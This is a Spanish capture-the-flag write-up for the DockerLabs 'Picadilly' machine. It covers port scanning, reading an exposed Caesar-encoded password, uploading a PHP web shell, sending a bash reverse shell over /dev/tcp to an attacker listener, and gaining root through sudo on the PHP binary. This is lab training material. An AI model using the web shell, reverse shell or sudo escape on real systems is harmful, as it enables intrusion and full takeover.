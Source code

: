 # PICADILLY - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Picadilly. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./picadilly.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: kaikoperez

## RECONOCIMIENTO DE RED

### conectividad y SO

Primero hacemos `ping -c 1 172.17.0.2` para enviar un paquete ICMP a la máquina.
> `-c 1` Solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/12171f6c-fbb0-4bbf-8e74-f453568dc17b)

Y nos llega respuesta. Como el TTL es de 64 el sistema operativo de la máquina muy posiblemente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/57808989-a8cf-4a58-8e5d-dfc8556aba8f)

Están abiertos el puerto 80 y 443. Ahora lanzamos un escaneo de versiones con nmap, y también lanzamos scripts de reconocimiento estándar:

```python
nmap -p80,443 -sCV 172.17.0.2 -oN targeted
```

> `-p80,443` hacer el escaneo solo sobre estos dos puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/f999fd7c-aabf-4757-9d07-d429fbf654c4)

Podemos ver varios datos, como las versiones de Apache o algún nombre de dominio. También vemos que nos ha encontrado un archivo `backup.txt` en el servidor web del puerto 80.

## RECONOCIMIENTO WEB

Empezamos lanzando desde consola el comando `whatweb` sobre el puerto 80:

```python
whatweb http://172.17.0.2
```

![image](https://github.com/user-attachments/assets/005cf3cf-fbd7-4556-901b-ea8a65c06a58)

Vemos que el título es `Index of /`, por lo que alomejor hay directory listing. Cargamos el servidor en el navegador:

![image](https://github.com/user-attachments/assets/90de0b8f-6620-4a3f-add7-66b641b5912a)

Sí que se aplica directory listing, también vemos el archivo `backup.txt` que encontró nmap:

![image](https://github.com/user-attachments/assets/8b3fd0fb-3661-45dc-81e3-83fcb1fe6661)

Nos da una contraseña cifrada que nos puede servir más adelante. Pero como la máquina no tiene servidor SSH no podemos usarla todavía.

Pasamos al puerto 443:

```python
whatweb https://172.17.0.2
```

![image](https://github.com/user-attachments/assets/249f7ca6-527c-4ed6-bfd6-dc59e76b57e7)

No vemos ninguna información interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/d67fd988-4d7a-40e2-b92a-79ee182f7437)

Parece ser una web de posts. Además, abajo hay una opción para crear nuestro propio post subiendo un archivo local. Podemos intuir que hay un directorio `/uploads` en donde se almacenen los posts:

![image](https://github.com/user-attachments/assets/eef522d1-0a81-41f6-a298-0bf07ed8530d)

Vemos que sí que existe, además ahí se almacena el post que vimos antes.

## EXPLOTACIÓN WEB

Podemos probar a subir un archivo con código PHP para ejecutar comandos, y cargarlo desde `/uploads` y ver si se interpreta el código. Creamos un archivo llamado `shell.php`, por ejemplo, y que tenga un código que nos permita ejecutar comandos en el sistema mediante la variable `cmd`:

```python
<?php
    system($_GET['cmd']);
?>
```

Y ahora lo subimos.

![image](https://github.com/user-attachments/assets/b0f025e3-2008-4fd5-8886-102a4034e915)

Vemos que en la página principal desde la cual se ven los posts, no se interpreta el código. Pero si probamos a ir a `/uploads/shell.php?cmd=id`:

![image](https://github.com/user-attachments/assets/86db851f-e03f-4881-a22e-5096bc67e0e4)

Vemos que interpreta el código PHP, y ganamos RCE. Ahora para enviarnos una reverse shell, ejecutamos este comando:

``` python
/bin/bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

Desde la web. Pero antes nos ponemos en escucha:

```python
nc -nlvp 443
```

![image](https://github.com/user-attachments/assets/e4a99c4e-983f-4dfb-afd1-0ec53d74f718)

Y recibimos la reverse shell. Ahora hacemos el tratamiento de la TTY.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS (MATEO)

Como somos el usuario www-data, podemos intentar escalar a el usuario mateo, que sabemos que existe gracias al archivo `backup.txt` del puerto 80. Además nos dieron su contraseña: hdvbfuadcb. Pero se le ha aplicado un tipo de Cifrado César. Podemos descifrarlo en la web [decode.fr](https://www.dcode.fr/caesar-cipher):

![image](https://github.com/user-attachments/assets/5fd03a0b-b954-4020-a6a0-93de4fa06264)

Vemos todos los tipos de desplazamientos que aplica. Entre todos, hay uno que destaca, ya que el resultado es "easycrxazy", que parece legible. Si probamos a cambiarnos al usuario mateo usando `su mateo` con esa contraseña, no nos deja. Podemos probar a poner "easycrazy", y de esta forma conseguimos cambiarnos al usuario mateo.

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario mateo, podemos hacer `sudo -l` para ver nuestros privilegios especiales de sudo:

![image](https://github.com/user-attachments/assets/4a8b9f75-223d-4df0-9ac8-02bb0129d0cd)

Vemos que podemos ejecutar como cualquier usuario del sistema, sin usar nuestra contraseña, el binario de PHP: `/usr/bin/php`. Esto es crítico ya que podemos escalar fácilmente al usuario root llamando a la función `system()` para ejecutar una bash: 

```python
sudo php -r "system('/bin/bash');"
```

![image](https://github.com/user-attachments/assets/ccafd4c3-ec82-49a2-bff5-3ae50ce3b85a)

Y ganamos una bash como el usuario root en la máquina Picadilly.